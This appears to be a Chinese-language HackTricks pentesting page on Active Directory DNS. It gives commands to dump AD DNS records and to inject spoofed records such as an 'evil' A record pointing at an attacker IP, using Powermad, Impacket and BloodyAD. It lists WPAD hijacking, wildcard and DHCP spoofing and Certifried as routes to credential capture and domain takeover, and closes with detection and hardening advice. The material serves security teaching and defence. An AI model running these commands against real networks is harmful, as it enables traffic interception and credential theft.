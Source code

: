 # AD DNS 记录

{{#include ../../banners/hacktricks-training.md}}

默认情况下，**任何用户**都可以在 Active Directory 中**枚举所有 DNS 记录**，类似于区域传输（用户可以列出 AD 环境中 DNS 区域的子对象）。

工具 [**adidnsdump**](https://github.com/dirkjanm/adidnsdump) 使得**枚举**和**导出**区域中的**所有 DNS 记录**成为可能，以便于内部网络的侦查。
```bash
git clone https://github.com/dirkjanm/adidnsdump
cd adidnsdump
pip install .

# Enumerate the default zone and resolve the "hidden" records
adidnsdump -u domain_name\\username ldap://10.10.10.10 -r

# Quickly list every zone (DomainDnsZones, ForestDnsZones, legacy zones,…)
adidnsdump -u domain_name\\username ldap://10.10.10.10 --print-zones

# Dump a specific zone (e.g. ForestDnsZones)
adidnsdump -u domain_name\\username ldap://10.10.10.10 --zone _msdcs.domain.local -r

cat records.csv
```
> adidnsdump v1.4.0 (2025年4月) 添加了 JSON/可grep输出 (`--json`)、多线程 DNS 解析以及在绑定到 LDAPS 时对 TLS 1.2/1.3 的支持

有关更多信息，请阅读 [https://dirkjanm.io/getting-in-the-zone-dumping-active-directory-dns-with-adidnsdump/](https://dirkjanm.io/getting-in-the-zone-dumping-active-directory-dns-with-adidnsdump/)

---

## 创建/修改记录 (ADIDNS 欺骗)

由于 **Authenticated Users** 组默认在区域 DACL 上具有 **Create Child** 权限，任何域帐户（或计算机帐户）都可以注册额外的记录。这可以用于流量劫持、NTLM 继电器强迫甚至完全域妥协。

### PowerMad / Invoke-DNSUpdate (PowerShell)
```powershell
Import-Module .\Powermad.ps1

# Add A record evil.domain.local → attacker IP
Invoke-DNSUpdate -DNSType A -DNSName evil -DNSData 10.10.14.37 -Verbose

# Delete it when done
Invoke-DNSUpdate -DNSType A -DNSName evil -DNSData 10.10.14.37 -Delete -Verbose
```
### Impacket – dnsupdate.py  (Python)
```bash
# add/replace an A record via secure dynamic-update
python3 dnsupdate.py -u 'DOMAIN/user:Passw0rd!' -dc-ip 10.10.10.10 -action add -record evil.domain.local -type A -data 10.10.14.37
```
*(dnsupdate.py 随 Impacket ≥0.12.0 一起提供)*

### BloodyAD
```bash
bloodyAD -u DOMAIN\\user -p 'Passw0rd!' --host 10.10.10.10 dns add A evil 10.10.14.37
```
---

## 常见攻击原语

1. **通配符记录** – `*.<zone>` 将 AD DNS 服务器变成类似于 LLMNR/NBNS 欺骗的企业范围响应器。可以被滥用来捕获 NTLM 哈希或将其中继到 LDAP/SMB。 （需要禁用 WINS 查找。）
2. **WPAD 劫持** – 添加 `wpad`（或指向攻击者主机的 **NS** 记录以绕过全球查询阻止列表）并透明地代理出站 HTTP 请求以收集凭据。 微软修补了通配符/DNAME 绕过（CVE-2018-8320），但 **NS 记录仍然有效**。
3. **过期条目接管** – 声称之前属于工作站的 IP 地址，相关的 DNS 条目仍将解析，从而启用基于资源的受限委派或 Shadow-Credentials 攻击，而无需触碰 DNS。
4. **DHCP → DNS 欺骗** – 在默认的 Windows DHCP+DNS 部署中，同一子网的未经身份验证的攻击者可以通过发送伪造的 DHCP 请求覆盖任何现有的 A 记录（包括域控制器），这些请求触发动态 DNS 更新（Akamai “DDSpoof”，2023）。 这使得在 Kerberos/LDAP 上进行中间人攻击，并可能导致完全的域接管。
5. **Certifried (CVE-2022-26923)** – 更改您控制的计算机帐户的 `dNSHostName`，注册匹配的 A 记录，然后请求该名称的证书以冒充 DC。 工具如 **Certipy** 或 **BloodyAD** 完全自动化该流程。

---

## 检测与加固

* 拒绝 **Authenticated Users** 在敏感区域的 *创建所有子对象* 权限，并将动态更新委派给专用帐户用于 DHCP。
* 如果需要动态更新，将区域设置为 **仅安全**，并在 DHCP 中启用 **名称保护**，以便只有拥有者计算机对象可以覆盖其自己的记录。
* 监控 DNS 服务器事件 ID 257/252（动态更新），770（区域传输）和 LDAP 写入到 `CN=MicrosoftDNS,DC=DomainDnsZones`。
* 用故意良性的记录或通过全球查询阻止列表阻止危险名称（`wpad`，`isatap`，`*`）。
* 保持 DNS 服务器打补丁 – 例如，RCE 漏洞 CVE-2024-26224 和 CVE-2024-26231 达到 **CVSS 9.8**，并且可以远程利用针对域控制器。

## 参考文献

* Kevin Robertson – “ADIDNS Revisited – WPAD, GQBL and More”  (2018, 仍然是通配符/WPAD 攻击的事实参考)
* Akamai – “通过滥用 DHCP DNS 动态更新来欺骗 DNS 记录” (2023年12月)
{{#include ../../banners/hacktricks-training.md}}

